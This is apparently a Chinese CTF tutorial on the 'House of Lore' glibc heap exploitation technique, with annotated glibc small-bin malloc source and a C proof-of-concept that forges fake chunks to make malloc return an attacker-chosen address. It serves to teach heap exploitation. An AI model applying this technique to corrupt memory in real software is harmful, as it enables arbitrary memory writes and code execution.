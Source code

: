 ```yaml
---
title: House of Lore
date: 2018-04-16 08:15:13
categories:
tags:
	- CTF
	- House of Lore
---
```


## 概述

House of Lore 攻击与 Glibc 堆管理中的的 Small Bin 的机制紧密相关。

House of Lore 可以实现分配任意指定位置的 chunk，从而修改任意地址的内存。

House of Lore 利用的前提是需要控制 Small Bin Chunk 的 bk 指针，并且控制指定位置 chunk 的 fd 指针。

这项攻击基本上是对于small bin和large bin的伪造堆块攻击. 然而, 因为约在2007年(对`fd_nextsize`和`bk_nextsize`的引入)一个新增的对large bin的保护, 该项技术变得不再可行。这里我们只考虑small bin的情形. 首先, 一个small chunk会被放置在small bin中, 它的`bk`指针会被覆写成指向一个伪造的small chunk. **要注意的是在small bin的情况下, 插入操作发生在`首部`而移除操作发生在`尾部`**. 一次malloc调用将首先移除bin中理应存在的堆块从而致使我们的伪堆块到了bin的`尾部`. 再下一次malloc调用就会返回攻击者的堆块.

. **要注意的是在small bin的情况下, 插入操作发生在`首部`而移除操作发生在`尾部`**. 

## 基本原理

如果在 malloc 的时候，申请的内存块在 small bin 范围内，那么执行的流程如下

```C
    /*
       If a small request, check regular bin.  Since these "smallbins"
       hold one size each, no searching within bins is necessary.
       (For a large request, we need to wait until unsorted chunks are
       processed to find best fit. But for small ones, fits are exact
       anyway, so we can check now, which is faster.)
     */

    if (in_smallbin_range(nb)) {
        // 获取 small bin 的索引
        idx = smallbin_index(nb);
        // 获取对应 small bin 中的 chunk 指针
        bin = bin_at(av, idx);
        // 先执行 victim= last(bin)，获取 small bin 的最后一个 chunk
        // 如果 victim = bin ，那说明该 bin 为空。
        // 如果不相等，那么会有两种情况
        if ((victim = last(bin)) != bin) {
            // 第一种情况，small bin 还没有初始化。
            if (victim == 0) /* initialization check */
                // 执行初始化，将 fast bins 中的 chunk 进行合并
                malloc_consolidate(av);
            // 第二种情况，small bin 中存在空闲的 chunk
            else {
                // 获取 small bin 中倒数第二个 chunk 。
                bck = victim->bk;
                // 检查 bck->fd 是不是 victim，防止伪造
                if (__glibc_unlikely(bck->fd != victim)) {
                    errstr = "malloc(): smallbin double linked list corrupted";
                    goto errout;
                }
                // 设置 victim 对应的 inuse 位
                set_inuse_bit_at_offset(victim, nb);
                // 修改 small bin 链表，将 small bin 的最后一个 chunk 取出来
                bin->bk = bck;
                bck->fd = bin;
                // 如果不是 main_arena，设置对应的标志
                if (av != &main_arena) set_non_main_arena(victim);
                // 细致的检查
                check_malloced_chunk(av, victim, nb);
                // 将申请到的 chunk 转化为对应的 mem 状态
                void *p = chunk2mem(victim);
                // 如果设置了 perturb_type , 则将获取到的chunk初始化为 perturb_type ^ 0xff
                alloc_perturb(p, bytes);
                return p;
            }
        }
    }
```

从下面的这部分我们可以看出

```c
                // 获取 small bin 中倒数第二个 chunk 。
                bck = victim->bk;
                // 检查 bck->fd 是不是 victim，防止伪造
                if (__glibc_unlikely(bck->fd != victim)) {
                    errstr = "malloc(): smallbin double linked list corrupted";
                    goto errout;
                }
                // 设置 victim 对应的 inuse 位
                set_inuse_bit_at_offset(victim, nb);
                // 修改 small bin 链表，将 small bin 的最后一个 chunk 取出来
                bin->bk = bck;
                bck->fd = bin;
```

如果我们可以修改 small bin 的最后一个 chunk 的 bk 为我们指定内存地址的fake chunk，并且同时满足之后的 bck->fd != victim 的检测，那么我们就可以使得 small bin 的 bk 恰好为我们构造的 fake chunk。也就是说，当下一次申请 small bin 的时候，我们就会分配到指定位置的 fake chunk。

## 例子

 [house_of_lore](https://heap-exploitation.dhavalkapil.com/assets/files/house_of_lore.c) 为例

```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

struct small_chunk {
  size_t prev_size;
  size_t size;
  struct small_chunk *fd;
  struct small_chunk *bk;
  char buf[0x64];               // chunk falls in smallbin size range
};

int main() {
  struct small_chunk fake_chunk, another_fake_chunk;
  struct small_chunk *real_chunk;
  unsigned long long *ptr, *victim;
  int len;

  printf("%p\n", &fake_chunk);

  len = sizeof(struct small_chunk);

  // Grab two small chunk and free the first one
  // This chunk will go into unsorted bin
  ptr = malloc(len);
  printf("%p\n", ptr);
  // The second malloc can be of random size. We just want that
  // the first chunk does not merge with the top chunk on freeing
  printf("%p\n", malloc(len));
  free(ptr);

  real_chunk = (struct small_chunk *)(ptr - 2);
  printf("%p\n", real_chunk);

  // Grab another chunk with greater size so as to prevent getting back
  // the same one. Also, the previous chunk will now go from unsorted to
  // small bin
  printf("%p\n", malloc(len + 0x10));

  // Make the real small chunk's bk pointer point to &fake_chunk
  // This will insert the fake chunk in the smallbin
  real_chunk->bk = &fake_chunk;
  // and fake_chunk's fd point to the small chunk
  // This will ensure that 'victim->bk->fd == victim' for the real chunk
  fake_chunk.fd = real_chunk;

  // We also need this 'victim->bk->fd == victim' test to pass for fake chunk
  fake_chunk.bk = &another_fake_chunk;
  another_fake_chunk.fd = &fake_chunk;

  // Remove the real chunk by a standard call to malloc
  printf("%p\n", malloc(len));

  // Next malloc for that size will return the fake chunk
  victim = malloc(len);
  printf("%p\n", victim);

  return 0;
}
```

需要特别小心以确保每一个将要使用malloc返回的small chunk都满足`victim->bk->fd == victim`, 以通过安全检查 ”malloc(): smallbin double linked list corrupted” 。此外也添加了额外的’malloc’调用以确保:

1. 第一个堆块在释放时会添加到unsorted bin而不是和top chunk合并
2. 第一个堆块会进入到small bin中，因为它不满足大小为`len + 0x10`的malloc申请.

## 参考

[House of Lore](https://ctf-wiki.github.io/ctf-wiki/pwn/heap/house_of_lore/)

https://vancir.com/2017/08/12/house-of-lore/

